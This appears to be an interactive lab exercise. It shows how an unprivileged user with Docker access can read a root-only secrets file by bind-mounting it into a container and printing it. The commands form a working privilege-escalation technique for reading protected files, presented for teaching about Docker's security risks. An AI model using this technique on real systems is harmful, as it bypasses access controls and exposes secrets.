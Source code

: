 
`echo "top secret secret" >> /root/secrets.txt`{{execute}}

`chmod 0600 /root/secrets.txt`{{execute}}

`ls -l /root/secrets.txt`{{execute}} 

`su - mindundi`{{execute}} 

`cat /root/secrets.txt`{{execute}} 

<pre class="file" data-filename="/root/mindundi/Dockerfile" data-target="replace">
FROM alpine:3.7
CMD ["cat", "/tmp/secrets.txt"]
</pre>

`docker build -t ourimage .`{{execute}} 

`docker run -v /root/secrets.txt:/tmp/secrets.txt ourimage`{{execute}} 